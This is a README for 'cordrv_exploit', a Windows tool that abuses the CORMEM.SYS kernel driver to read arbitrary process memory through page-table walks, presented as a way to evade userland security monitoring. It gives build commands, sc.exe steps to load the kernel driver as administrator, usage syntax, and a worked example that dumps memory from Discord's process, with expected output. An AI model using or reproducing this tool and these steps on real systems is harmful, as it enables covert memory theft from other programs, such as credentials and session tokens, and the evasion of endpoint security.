

# cordrv_exploit

Usermode tool that reads and writes arbitrary process memory through the CORMEM kernel driver, bypassing Win32 API monitoring entirely.



Memory is accessed via physical address translation (page table walk) rather than `ReadProcessMemory`, making it transparent to most userland security software.

## Requirements

- Windows x64
- CORMEM.SYS loaded
- Administrator privileges
- Visual Studio 2022 + CMake 3.20+

## Build

```powershell
cmake -B build -A x64
cmake --build build --config Release
```

## Loading the driver

If CORMEM.SYS is not already loaded, load it manually as administrator:

```powershell
sc.exe create CORMEM binPath= "C:\path\to\CORMEM.SYS" type= kernel start= demand
sc.exe start CORMEM
```

Unload when done:

```powershell
sc.exe stop CORMEM
sc.exe delete CORMEM
```

## Usage

```
cordrv_exploit.exe <pid> <address> [size]

  pid      Process ID (decimal)
  address  Virtual address to read (hex)
  size     Bytes to dump, default 256, max 1048576
```

## Example — reading Discord's PE header

```powershell
# Get the main Discord process
$proc = Get-Process -Name "Discord" | Sort-Object WorkingSet -Descending | Select-Object -First 1
$discordPid = $proc.Id
$base = $proc.Modules[0].BaseAddress

Write-Host "PID  : $discordPid"
Write-Host "Base : 0x$($base.ToString('X'))"

.\build\Release\cordrv_exploit.exe $discordPid "0x$($base.ToString('X'))" 256
```

Expected output:

```
[*] Target PID     : 16364
[*] Target address : 0x7FF6FC180000
[*] Dump size      : 256 bytes

[*] Initializing CorDrv...
[+] Driver initialized.

[*] Finding system DTB...
[+] System DTB: 0x1AE000

[*] Searching EPROCESS list for PID 16364...
[+] Process DTB: 0x2CD30F000

[+] VA 0x7FF6FC180000 -> PA 0x1A98C2000

Memory dump (0x7FF6FC180000, 256 bytes):
  7FF6FC180000: 4D 5A 78 00 01 00 00 00 04 00 00 00 00 00 00 00
  7FF6FC180010: 00 00 00 00 00 00 00 00 40 00 00 00 00 00 00 00
  ...

[+] Done.
```

The `4D 5A` at offset 0 confirms the MZ header was read successfully from physical RAM.

## Notes

- Pages that have been swapped out to disk cannot be read (TranslateVirtualAddress will return 0).
- Some processes spawn multiple instances — always target the one with the highest working set.
- HVCI / Secure Boot may block CORMEM.SYS on Windows 11 if the driver is on Microsoft's blocklist.

